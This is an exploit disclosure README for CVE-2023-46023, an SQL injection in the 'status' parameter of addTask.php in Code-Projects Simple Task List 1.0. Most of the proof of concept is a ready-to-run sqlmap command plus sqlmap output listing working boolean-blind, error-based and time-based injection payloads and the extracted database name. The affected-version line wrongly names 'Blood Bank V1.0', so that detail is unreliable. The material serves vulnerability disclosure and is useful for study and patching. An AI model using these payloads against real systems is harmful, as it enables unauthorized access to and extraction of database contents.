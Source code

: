 # CVE-2023-46023-Simple-Task-List-1.0-SQL-Injection-Vulnerability
+ Exploit Author: ersinerenler
# Vendor Homepage
+ https://code-projects.org/simple-task-list-in-php-with-source-code
# Software Link
+ https://download-media.code-projects.org/2020/12/Simple_Task_List_In_PHP_With_Source_Code.zip
# Overview
+ Code-Projects Simple Task List V1.0 is susceptible to a significant security vulnerability that arises from insufficient protection on the 'status' parameter in the addTask.php file. This flaw can potentially be exploited to inject malicious SQL queries, leading to unauthorized access and extraction of sensitive information from the database.
# Vulnerability Details
+ CVE ID: CVE-2023-46023
+ Affected Version: Blood Bank V1.0
+ Vulnerable File: /addTask.php
+ Parameter Names: status
+ Attack Type: Local
# References:
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-46023
+ https://nvd.nist.gov/vuln/detail/CVE-2023-46023

# Description
+ The lack of proper input validation and sanitization on the 'status' parameter allows an attacker to craft SQL injection queries, bypassing authentication mechanisms and gaining unauthorized access to the database

# Proof of Concept (PoC) : 
+ Register and login the system
+ Add a project and a task
+ Then use the sqlmap to exploit
+ `sqlmap -u "http://localhost/Tasklist/addTask.php" --headers "Cookie: PHPSESSID=<php-cookie-value>" --method POST --data "name=test&status=N" -p status --risk 3 --level 5 --dbms mysql --batch --current-db`

```
---
Parameter: status (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: name=test&status=N'||(SELECT 0x59506356 WHERE 1189=1189 AND 7323=7323)||'

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: name=test&status=N'||(SELECT 0x6b786b49 WHERE 7851=7851 AND (SELECT 9569 FROM(SELECT COUNT(*),CONCAT(0x7171787171,(SELECT (ELT(9569=9569,1))),0x716b706a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: name=test&status=N'||(SELECT 0x5669775a WHERE 4483=4483 AND (SELECT 3096 FROM (SELECT(SLEEP(5)))iFlC))||'
---
```
+ current database: `project`
<img width="1447" alt="image" src="https://github.com/ersinerenler/Code-Projects-Simple-Task-List-1.0/assets/113091631/7a836381-fd04-4f03-9c7c-63a23dcda583">
